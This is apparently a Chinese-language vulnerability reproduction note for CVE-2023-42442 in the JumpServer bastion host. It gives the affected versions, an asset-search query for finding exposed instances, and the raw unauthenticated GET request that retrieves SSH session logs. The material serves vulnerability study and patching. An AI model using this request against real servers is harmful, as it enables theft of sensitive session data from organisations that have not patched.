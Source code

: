 # JumpServer存在未授权访问漏洞（CVE-2023-42442）

# 一、漏洞简介
JumpServer开源堡垒机是一款运维安全审计系统产品，提供身份验证、授权控制、账号管理、安全审计等功能支持，帮助企业快速构建运维安全审计能力。JumpServer开源堡垒机通过企业版或者软硬件一体机的方式，向企业级用户交付开源增值的运维安全审计解决方案。api/api/v1/terminal/sessions/权限控制存在逻辑错误，可以被攻击者匿名访问。未经身份验证的远程攻击者可利用该漏洞下载ssh日志，并可借此远程窃取敏感信息。存储在 S3、OSS 或其他云存储中的ssh会话不受影响。

# 二、影响版本
+ <font style="color:black;">3.0.0 <= JumpServer <= 3.5.4</font>
+ <font style="color:black;">3.6.0 <= JumpServer <= 3.6.3</font>

# <font style="color:black;">三、资产测绘</font>
+ hunter`app.name="JumpServer"`
+ 特征：

![1696131346283-6a696011-dc5b-4c76-84a3-1f81b9ffb50b.png](./img/fuItFEC7-w-QTsDh/1696131346283-6a696011-dc5b-4c76-84a3-1f81b9ffb50b-786611.png)

# 四、漏洞复现
```plain
GET /api/v1/terminal/sessions/ HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![1696131423235-b969b6ea-4f13-4974-8e56-53063704b1ac.png](./img/fuItFEC7-w-QTsDh/1696131423235-b969b6ea-4f13-4974-8e56-53063704b1ac-468514.png)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pgq8hot5pwuqi3oo>